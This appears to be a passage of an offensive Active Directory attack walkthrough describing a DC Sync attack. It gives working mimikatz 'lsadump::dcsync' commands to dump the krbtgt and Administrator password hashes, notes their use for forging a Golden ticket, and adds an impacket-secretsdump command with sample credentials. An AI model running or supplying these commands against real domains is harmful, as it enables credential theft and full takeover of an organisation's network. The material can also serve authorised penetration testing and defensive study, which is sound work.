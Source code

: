 ## DC Sync

With the ticket of the DC machine account in our current user context we can trigger a DC Sync to dump the hash of any user. We may wish to adapt this to our needs, but 2 obvious users jump out.

### krbtgt

The first is the `krbtgt` user. This is the service account of the Key Distribution Center (KDC) service that runs on the DCs. It is a root of trust for Kerberos based domains. From `mimikatz.exe`
```
lsadump::dcsync /domain:infinity.com /user:INFINITY\krbtgt
```
From the output of the above grab the LM and NTLM hashes. These will be key to the forgery of a Golden ticket.

### Administrator

Or simpler still, the NTLM hash of the Administrator on the DC we coerced:
```
lsadump::dcsync /domain:infinity.com /user:infinity\administrator
```
and via Linux if we have credentials:
```bash
impacket-secretsdump -just-dc-user Administrator corp.com/powerfulUser:"rubbishPassw0rd\!"@192.168.12.34
```